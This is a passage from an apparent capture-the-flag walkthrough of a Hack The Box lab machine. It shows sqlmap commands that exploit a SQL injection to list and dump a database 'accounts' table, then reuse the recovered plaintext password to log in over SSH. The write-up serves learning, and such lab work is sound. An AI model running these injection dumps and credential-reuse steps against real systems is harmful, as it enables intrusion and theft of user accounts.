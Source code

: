 Then tables in the 'soccer_db' database :

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id -D soccer_db --tables
```

Result:

```text
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Then we can dump the 'accounts' table (supposing there are not too manu accounts)

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id -D soccer_db -T accounts --dump
```

Result:

```text
[INFO] retrieved: email
[INFO] retrieved: username
[INFO] retrieved: password
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

We can use this credential on the login form, this is valid but do not seem to get more access.

Instead, this credential is also valid for SSH access:

```shell
ssh player@$TARGET
```

Result:

```text
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon May  1 14:04:17 UTC 2023

  System load:           1.29
  Usage of /:            70.8% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:89c6

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

```